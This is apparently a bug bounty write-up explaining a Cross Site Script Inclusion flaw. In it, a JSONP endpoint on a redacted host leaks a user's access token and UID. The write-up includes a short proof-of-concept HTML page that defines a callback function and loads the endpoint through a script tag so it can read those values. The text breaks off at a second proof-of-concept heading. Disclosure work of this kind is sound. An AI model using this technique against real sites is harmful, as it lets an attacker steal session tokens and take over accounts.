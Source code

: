 # XSSI (Cross Site Script Inclusion) to Steal AccessToken and More

## Description -:

XSSI refers to a client side web vulnerability which takes advantage of the fact that inclusion via `script` tags are exempted from SOP (or Same Origin Policy defined by RFC 6454) of browsers. The problem arises when dynamic JavaScript or JSONP (JSON with Padding) based on user's session is utilized to share cross domain resources.

I've found that the confidential data including the Access Token and UID is sent inside a JSONP response and consequently an attacker is able to define a function and reference the API call against the JSONP endpoint in order to exfiltrate the token and UUID values within the JSON object. This further enables an attacker to perform a variety of READ/WRITE operations on behalf of the user's account including reading private messages of the user, deleting messages from user's account, sending messages from user's account to anyone along with the attachments and many other operations. 

**NOTE** to respect the nondisclosure policy of the program, the actual vulnerable asset is not disclosed and the same has been referenced as `staging.vulnerable.com` wherever necessary.

## Proof of Concept to Steal AccessToken -:

An attacker can call their own JSONP callback function (for ex `calc`) at the vulnerable endpoint -:

![A](https://user-images.githubusercontent.com/58471667/230939082-c5d38896-2cf6-4b36-8712-8004cf56c646.png)

This could be achieved by passing a callback to the API response (via the `callback` parameter), which will be wrapped around the JSON object, allowing us to load the API response between script tags to further handle it -:

```
<html>
<script>
function calc(s)
{
alert(JSON.stringify(s));
}
</script>

<script src="https://staging.vulnerable.com/account/messagecenter/headerwidget/params?callback=calc"></script>

</html>
```

Host the above script at your server. Access it's URL as an authenticated user and observe that it has now accessed your AccessToken and UID values -:

![B](https://user-images.githubusercontent.com/58471667/230939136-8aa1bf8e-774a-4993-baac-6c6309f4cd7a.png)

## Proof of Concept to Read/Delete/Send Messages from user account and more -:
